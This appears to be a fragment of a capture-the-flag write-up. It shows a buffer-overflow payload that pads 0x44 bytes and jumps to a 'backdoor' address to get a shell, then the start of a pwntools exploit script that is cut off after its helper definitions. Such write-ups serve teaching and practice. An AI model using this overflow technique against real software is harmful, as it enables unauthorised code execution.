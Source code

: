 ```bash
backdoor=0x0400844
pl="a"*0x44+p32(backdoor)
```

[![](assets/1705903019-e911bc120d5718c727a22d628a0b0efa.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240120191957-d79509fc-b785-1.png)  
getshell

[![](assets/1705903019-c0a771a35e091fc7eb8c55571d9aa4bc.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240120192008-de6260ae-b785-1.png)

### exp

```bash
import os
import sys
import time
from pwn import *
from ctypes import *

s       = lambda data               :p.send(str(data))
sa      = lambda delim,data         :p.sendafter(str(delim), str(data))
sl      = lambda data               :p.sendline(str(data))
sla     = lambda delim,data         :p.sendlineafter(str(delim), str(data))
r       = lambda num                :p.recv(num)
ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)
itr     = lambda                    :p.interactive()
uu32    = lambda data               :u32(data.ljust(4,b'\x00'))
uu64    = lambda data               :u64(data.ljust(8,b'\x00'))
```